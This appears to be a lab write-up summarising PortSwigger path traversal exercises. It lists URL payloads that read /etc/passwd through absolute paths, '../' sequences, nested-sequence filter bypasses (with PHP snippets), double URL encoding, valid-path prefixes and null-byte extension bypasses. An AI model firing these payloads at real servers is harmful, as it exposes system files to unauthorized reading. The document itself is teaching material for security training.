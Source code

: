 # directory traversal 


All the labs have been solved with a tool i made called [traver_sale](https://github.com/jjeyanthan/tools/tree/main/traver_sale)


## 1-use absolute path 

https://links/?file=/etc/passwd

## 2-path traversal using traversal sequences

https://links/?file=../../../../../../../etc/passwd


## 3-traversal sequences blocked bypass:

https://links/?file=....//....//....//....//....//....//etc/passwd

if a bad sanitization is made by the server like replacing traversal sequence with an empty string
we can bypass that: 

```php
<?php

$user_entry = "../../etc/passwd";

$replace_user = str_replace("../","",$user_entry);
?>

```
$replace_user is now "etc/passwd"

```php
<?php

$attack_entry = "....//....//etc/passwd";

$replace_attack = str_replace("../","",$attack_entry);

?>

```
$replace_attack is now "../../etc/passwd"


## 4-double url encoding and more :

If the server url decode the user entry once in order to find for example 
traversal sequence and then it process another url decode to retrieve the file we can

url encode twice in this case in order to bypass the first check.


https://links/?file=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd  => encoded once

then "%" will be encoded and our payload will become: %25

https://links/?file=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd => encoded twice


## 5-valid path 

If you can find a valid path for an images or another object from the page

you can use this path with additional traversal sequences :

example : 

/var/www/images/1.png   => a valid path


https://links/?file=/var/www/images/../../../etc/passwd

 
## 6-bypass extension check with null bytes



https://links/?file=/../../../../../etc/passwd%00.png

 

# source :

https://portswigger.net/web-security/file-path-traversal






